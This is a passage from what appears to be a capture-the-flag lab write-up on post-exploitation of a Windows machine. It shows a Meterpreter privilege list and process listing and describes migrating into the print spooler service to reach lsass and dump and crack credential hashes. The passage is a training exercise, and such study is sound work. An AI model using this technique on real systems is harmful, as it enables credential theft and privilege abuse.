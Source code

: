 Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```

# [Task 5] Looting 
gather additional credentials and crack the saved hashes on the machine.


we need to move to a process that actually has the permissions that we need to interact with the **lsass service**, the service **responsible for authentication within Windows.**


In order to interact with lsass we need to be 'living in' a process that is the same architecture as the lsass service (x64 in the case of this machine) and a process that has the same permissions as lsass. The printer spool service happens to meet our needs perfectly for this and it'll restart if we crash it!
```
meterpreter > ps
                                                                                                                                    
Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]                                                   
 4     0     System                x64   0                                      
 416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 424   692   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\sppsvc.exe
 504   692   vds.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\vds.exe
 544   536   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 584   692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 592   536   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe